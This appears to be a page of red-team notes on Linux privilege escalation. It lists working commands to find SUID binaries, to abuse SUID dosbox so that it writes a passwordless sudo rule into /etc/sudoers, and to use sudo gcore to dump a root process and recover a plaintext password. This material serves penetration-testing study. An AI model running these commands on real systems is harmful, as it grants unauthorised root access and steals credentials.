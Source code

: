 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Binary List

```bash
# Enumerate SUIDs
find / -type f -perm -u=s 2>/dev/null
```

## Dosbox

The presence of `dosbox` with the SUID bit set allows privilege escalation via **file write abuse**. According to [GTFOBins](https://gtfobins.github.io/gtfobins/dosbox/#suid), `dosbox` can be used to **modify arbitrary files when executed as** `root` through SUID.

```bash
# Add a user to the sudoers group
LFILE='/etc/sudoers'
dosbox -c 'mount c /' -c "echo x7331 ALL=(ALL) NOPASSWD: ALL >> c:$LFILE" -c exit
```

If **GUI-based access to the target** is available (e.g. via [VNC](../../../../../../services/tcp/remote-access/5900-vnc.md)) we can mount the filesystem:

<figure><img src="../../../../../../.gitbook/assets/nukem_vnc.png" alt=""><figcaption></figcaption></figure>

## Gcore

`gcore` is a CLI that creates a core dump of a running process without stopping it. This memory snapshot includes the process’s stack, heap, and loaded libraries, and is useful for **extracting sensitive data** or analyzing execution state during red team operations. It requires the PID of the target process and appropriate permissions. The output (`core.<PID>`) can be examined with tools like `gdb` or simply via `strings` making `gcore` valuable for stealthy, in-memory analysis during post-exploitation.

{% code overflow="wrap" %}
```bash
# Check user's permissions
$ sudo -l
User x7331 may run the following commands on kali:
    (ALL) NOPASSWD: /usr/bin/gcore
    
# List root processes
$ ps -u root -o pid,comm
490 password-store

# Dump the process
$ sudo gcore 490
​
# Inspect the file
$ strings core.490
001 Password: root:
R00tM3Plz!!!
```
{% endcode %}
